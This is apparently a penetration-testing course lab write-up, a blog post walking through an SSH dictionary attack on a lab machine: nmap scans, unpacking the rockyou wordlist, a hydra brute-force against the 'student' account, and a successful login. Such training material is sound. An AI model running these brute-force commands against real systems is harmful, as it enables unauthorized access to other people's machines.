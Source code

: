 ```yaml
---
layout: post
title: "SSH Dictionary Attack"
date: "2022-08-22"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Assessment Methodologies
    - Enumeration
---
```


# SSH Dictionary Attack（SSH 字典攻击）
```
ip a

eth1 inet 192.141.55.2/24

ping 192.141.55.3
```

```
nmap 192.141.55.3

PORT    STATE   SERVICE
22/tcp  open    ssh
```

```
nmap 192.141.55.3 -sV -p 22

PORT    STATE   SERVICE VERSION
22/tcp  open    ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```
hydra -l student -P /usr/share/wordlists/rockyou.txt 192.141.55.3 ssh
```

```
ssh student@192.141.55.3

yes
student@victim-1:~$ ls
student@victim-1:~$ logout
```
